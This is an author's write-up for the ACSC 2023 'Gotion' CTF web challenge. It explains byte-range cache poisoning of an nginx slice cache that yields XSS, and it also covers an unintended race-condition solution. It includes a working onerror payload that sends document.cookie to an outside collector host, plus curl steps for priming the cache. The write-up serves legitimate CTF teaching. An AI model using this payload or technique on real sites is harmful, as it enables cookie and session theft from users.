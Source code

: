```yaml
---
title: "ACSC 2023 Gotion Challenge Author Writeup"
date: 2023-03-12T00:00:00+09:00
---
```


I made a Gotion Challenge in [ACSC](https://acsc.asia/) (Asian Cyber Security Challenge) 2023.
Here is the author's writeup.

Challenge Description:

```
Gotion is yet another simple secure note service. You might have seen these kind of applications many times before, but try this one!
```

Challenge Repository: <https://github.com/tyage/acsc2023-gotion>

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">In ACSC 2023, I made a Gotion challenge and promotion video :) Thank you everyone who played! <a href="https://t.co/SN4PXKkKid">pic.twitter.com/SN4PXKkKid</a></p>&mdash; もうダニ by 左京区在中 (@tyage) <a href="https://twitter.com/tyage/status/1629679515529281536?ref_src=twsrc%5Etfw">February 26, 2023</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

# Challenge Details

The challenge has three components: Go web application, nginx and bot.
This is obviously an XSS challenge as the bot has FLAG in the cookie.

The Go app allows users to create simple note pages with only title and body.
The title "Gotion" is a parody of the famous note-taking app Notion and Go.

Users can enter title and body, but they are HTML escaped.
Therefore it is not possible to cause XSS in the notes page.

The key points here are that notes have their own unique URL and Gotion creates static HTML files for each note page like SSG (Static Site Generator).
Users can control the last part of the note URL, but they are only allowed to use restricted characters `[a-zA-Z0-9 ]`.

Looking inside nginx, the config file has a suspicious cache directive.

```nginx
proxy_cache_path /tmp/nginx keys_zone=mycache:10m;
server {
    listen 80;

    location ~ .mp4$ {
        # Smart and Efficient Byte-Range Caching with NGINX
        # https://www.nginx.com/blog/smart-efficient-byte-range-caching-nginx/
        proxy_cache mycache;
        slice              4096; # Maybe it should be bigger?
        proxy_cache_key    $host$uri$is_args$args$slice_range;
        proxy_set_header   Range $slice_range;
        proxy_http_version 1.1;
        proxy_cache_valid  200 206 1h;
        proxy_pass http://app:3000;
    }

    location / {
        proxy_pass http://app:3000;
    }
}
```

This directive caches an mp4 file, but it is not a normal cache, it is a [byte-range cache](https://www.nginx.com/blog/smart-efficient-byte-range-caching-nginx/) which allows us to cache part of the content.
When a client requests `Range: bytes=0-1000`, nginx requests the content with a `Range: bytes=0-4095` header to the origin server and caches the response.
If a client requests `Range: bytes=0-1000` again, nginx can respond quickly because there is a cache of the first 4096 bytes.

This config file also has an error in the location directive.
The `.` in `location ~ .mp4$` does not mean `.` but any character, because this is RegExp.
This directive was made for the video file `howto.mp4` but the file such as `FOOBARmp4` will unfortunately be cached.

# Solution

The solution is byte range cache poisoning, which causes nginx to return HTML containing XSS payload.

This is possible because nginx concatenates segmented caches.
Consider a situation where nginx has the content cache, but only the first 4096 bytes, and the content was updated later.
When a client makes a request without a range header, nginx will retrieve the rest of the updated content and concatenate it with the first cache.

In other words, we can concatenate the sliced parts of two different HTMLs!

The steps to exploit this into XSS are below.

1. Create a note page whose URL ends with `AAAAAAAAAAAAAAAAAmp4` so that it will be cached.

2. Modify the HTML of the note so that the first 4096 bytes end with `<`.

The first 4096 bytes of HTML will look like this

```html
<!DOCTYPE html>
<html lang="en">

<head>
...
          <textarea name="body" class="form-control" placeholder="note" style="height: 300px;">AAAA...AAAAA<
```

3. Cache the first 4096 bytes with a range header `curl http://.../...AAAAAAAAAAAAAAAAAmp4 -H "Range: bytes=0-4095"`.

4. Update the page so that the second 4096 bytes block starts with `img src=x onerror=[payload here]`.

The second block will look like this

```html
img src=x onerror=location=`//eo7x31ojradre3r.m.pipedream.net/?c=${document.cookie}` x=</textarea>
...
</body>

</html>
```

5. Report the URL `http://.../...AAAAAAAAAAAAAAAAAmp4

6. Wait for the flag and done!

The full solution script is here <https://github.com/tyage/acsc2023-gotion/blob/main/solution/solve.py>.

# Unintended Solution

There is an unintended solution.
I forgot to write an exclusive lock when Go app write a HTML to file.

<https://github.com/tyage/acsc2023-gotion/blob/main/app/main.go#L117>

```go
		f, err := os.OpenFile(noteFilePath, os.O_WRONLY|os.O_TRUNC, 0644)
		if err != nil {
			http.Error(w, "invalid note", http.StatusInternalServerError)
			return
		}

		WriteNote(f, NoteParam{
			Id:    noteId,
			URL:   noteURL,
			Title: title,
			Body:  body,
		})
```

It causes race condition when the app process `WriteNote` at the same time and it was possible to store broken HTML causing XSS.

# Comment

To make a challenge solvable, origin HTTP server must support byte-range request and must *not* return E-Tag header.
Fortunately, Go net/http server meets these requirements therefore I chose the Go server.

Not only nginx but also some other HTTP cache servers and CDNs have this kind of implementation, so I think this concept has a change to be exploited in some real environment.

I think this is the first PoC of byte-range cache poisoning XSS and I wish the participants have enjoyed the challenge!
